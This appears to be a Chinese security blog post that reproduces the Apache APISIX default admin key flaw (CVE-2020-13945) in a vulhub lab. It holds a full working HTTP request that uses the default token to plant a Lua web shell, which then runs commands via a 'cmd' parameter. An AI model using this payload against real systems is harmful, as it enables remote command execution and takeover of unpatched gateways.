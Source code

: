 #  Apache APISIX 默认密钥漏洞（CVE-2020-13945）   
原创 【白】  白安全组   2023-12-10 09:11  
  
### 前言：  
  
Apache APISIX是一个高性能API网关。在用户未指定管理员Token或使用了默认配置文件的情况下，ApacheAPISIX将使用默认的管理员Token   
edd1c9f034335f136f87ad84b625c8f1  
，攻击者利用这个Token可以访问到管理员接口，进而通过  
script  
参数来插入任意LUA脚本并执行。  
  
**搭建方式：******  
  
使用  
vulhub进行搭建，目录：  
```
bachang/vulhub/apisix/CVE-2020-13945
```  
  
  
启动：  
```
docker-compose up -d
```  
  
  
访问  
```
IP:9080
```  
  
  
  
以下页面即启动成功  
  
![](https://mmbiz.qpic.cn/mmbiz_png/1AUjJ6HpTUZHASeeHdqp4nnYXgZYOmbtrYxX2RJBllGfIQUZJzLich8PY1CtgIzRvpgjO1xialZayGOsp4V3yoLQ/640?wx_fmt=png&from=appmsg "")  
  
漏洞复现：  
  
我们利用默认的  
token  
去传递一个恶意  
LUA  
脚本  
  
```
POST /apisix/admin/routes HTTP/1.1
Host: your-ip:9080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
X-API-KEY: edd1c9f034335f136f87ad84b625c8f1
Content-Type: application/json
Content-Length: 406
{
"uri": "/attack",
"script": "local _M = {} \n function _M.access(conf, ctx) \n local os = require('os')\n local args = assert(ngx.req.get_uri_args()) \n local f = assert(io.popen(args.cmd, 'r'))\n local s = assert(f:read('*a'))\n ngx.say(s)\n f:close() \n end \nreturn _M",
"upstream": {
"type": "roundrobin",
"nodes": {
"example.com:80": 1
}
}
}
```  
  
  
  
使用  
burp  
进行发送包  
  
![](https://mmbiz.qpic.cn/mmbiz_png/1AUjJ6HpTUZHASeeHdqp4nnYXgZYOmbtj5DyrIZszffGh1NXoKk9kNPuEJb112sIiaicaC3ehKsdlCKjoRbSPnicg/640?wx_fmt=png&from=appmsg "")  
  
发送之后我们可以访问我们通过上面代码生成的  
attack  
页面，直接进行命令执行  
  
访问  
http://192.168.195.140:9080/attack?cmd=id  
  
   
  
![](https://mmbiz.qpic.cn/mmbiz_png/1AUjJ6HpTUZHASeeHdqp4nnYXgZYOmbtFFVBleFJVcIp8oLP6pPAMTS9zwWicUx9YPBHqM9cX258uPncn8icMsSw/640?wx_fmt=png&from=appmsg "")  
  
到这一步就可以任意命令执行了。  
  
